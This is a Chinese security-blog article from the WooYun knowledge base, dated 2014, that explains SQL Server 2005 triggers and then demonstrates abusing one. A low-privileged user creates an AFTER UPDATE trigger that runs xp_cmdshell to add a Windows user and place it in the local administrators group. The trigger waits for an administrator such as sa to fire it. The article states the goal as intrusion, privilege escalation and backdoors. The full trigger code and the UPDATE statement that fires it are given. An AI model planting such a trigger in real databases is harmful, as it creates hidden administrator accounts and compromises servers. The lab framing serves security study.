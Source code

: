 # SqlServer 2005 Trigger

2014/11/02 13:23 | [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [数据库安全](http://drops.wooyun.org/category/database "查看 数据库安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 什么是触发器：

* * *

触发器对表进行插入、更新、删除的时候会自动执行的特殊存储过程。触发器一般用在 check 约束更加复杂的约束上面。触发器和普通的存储过程的区别是：触发器是当对某一个表进行操作。诸如：update、insert、delete 这些操作的时候，系统会自动调用执行该表上对应的触发器。SQL Server 2005 中触发器可以分为两类：DML 触发器和 DDL 触发器，其中 DDL 触发器它们会影响多种数据定义语言语句而激发，这些语句有 create、alter、drop 语句。

## 0x02 问题描述：

* * *

a)通过 Sqlserver 的触发器，可以利用执行者的权限执行自定义的命令。

b)渗透过程中可能利用的触发器场景：在设置好触发器以后，等待、诱使高权限用户去触发这个触发器，来实现入侵、提权、留后门等目的。

c)Sqlserver 的触发器可以分为两类：DML 触发器(After insert，After delete，After update 和 instead of)和 DDL 触发器（for）。

实验环境： Win2003x86 && SqlServer 2005，默认安装 Sqlserver，安装一个开源应用 siteserver，并建立 test 用户，不给予服务器角色，数据库角色仅给予 dbo 和 public 权限。并将 test 库与 test 用户相互映射。SqlServer 的 xp_cmdshell 已经被恢复。

实验过程： a)使用 test 用户建立触发器语句：

```
SET ANSI_NULLS ON
GO
SET QUOTED_IDENTIFIER ON
GO                             --这些是 SQL-92 设置语句，使 mssql 遵从 SQL-92 规则。
CREATE TRIGGER test
   ON bairong_Administrator
   AFTER UPDATE           /*建立一个作用于表 bairong_Administrator 的、
                            类型为 After update 的、名为 test 的触发器*/
AS 
BEGIN
    --EXECUTE SP_ADDEXTENDEDPROC 'MASTER.DBO.XP_CMDSHELL','XPLOG70.DLL'
           EXECUTE MASTER.DBO.XP_CMDSHELL 'net user STD 123456 /add'
    EXECUTE MASTER.DBO.XP_CMDSHELL 'net localgroup administrators STD /add'
           /*默认格式 begin 为开头加上触发后执行的语句,这里是利用储存过程添加系统账号。*/
END
GO

```

![enter image description here](img/img1_u58_png.jpg)

b)执行 UPDATE 操作，是触发器执行：

1)使用 UPDATE 语句来触发触发器：

```
UPDATE bairong_Administrator SET Email='STD@nsfocus.com' WHERE UserName='admin';

```

使用 test 用户执行：

![enter image description here](img/img2_u74_png.jpg)

![enter image description here](img/img3_u128_png.jpg)

![enter image description here](img/img4_u119_png.jpg)

2)使用 sa 用户执行：

![enter image description here](img/img5_u118_png.jpg)

![enter image description here](img/img6_u106_png.jpg)

![enter image description here](img/img7_u20_png.jpg)

那么这就产生一个问题了，如何利用被动触发留后门或渗透攻击。

版权声明：未经授权禁止转载 [darksn0w](http://drops.wooyun.org/author/darksn0w "由 darksn0w 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [利用 insert，update 和 delete 注入获取数据](http://drops.wooyun.org/tips/2078)
*   [Mysql Trigger](http://drops.wooyun.org/tips/3435)
*   [域内渗透基本技巧](http://drops.wooyun.org/tips/421)
*   [使用 SQLMAP 对网站和数据库进行 SQL 注入攻击](http://drops.wooyun.org/tips/2113)
*   [MongoDB 安全配置](http://drops.wooyun.org/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8/2470)
*   [Webscan360 的防御与绕过](http://drops.wooyun.org/tips/3790)